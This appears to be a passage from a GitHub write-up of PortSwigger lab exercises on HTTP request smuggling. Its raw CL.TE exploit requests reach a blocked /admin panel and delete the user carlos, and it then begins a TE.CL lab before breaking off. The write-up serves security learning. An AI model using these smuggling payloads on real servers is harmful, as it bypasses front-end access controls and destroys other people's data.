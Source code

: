 


Exploit:
```
POST / HTTP/1.1
Host: 0a10003704e0e26d81f194ed005100f1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Cookie: session=I2LwNjHcj1sab81ZQKf7AhSpxWRBS0ya
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

We now have access to admin
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/de26bfa4-72f3-49cd-8ec6-aecb7828e8f5)


To delete user
```
POST / HTTP/1.1
Host: 0a10003704e0e26d81f194ed005100f1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Cookie: session=I2LwNjHcj1sab81ZQKf7AhSpxWRBS0ya
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3197cc4d-a501-48e0-a562-428315de63d4)



**Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability**

Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability:
This lab involves a front-end and back-end server, and the back-end server doesn’t support chunked encoding. There’s an admin panel at /admin, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
SOLUTION:
In the lab description, it is clearly stated that the front end supports transfer encoding: chunked but the backend server doesn’t. So access the lab and send the request to the burp repeater.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2537aa5c-c9f8-465d-8ac3-d3f9af0f3534)
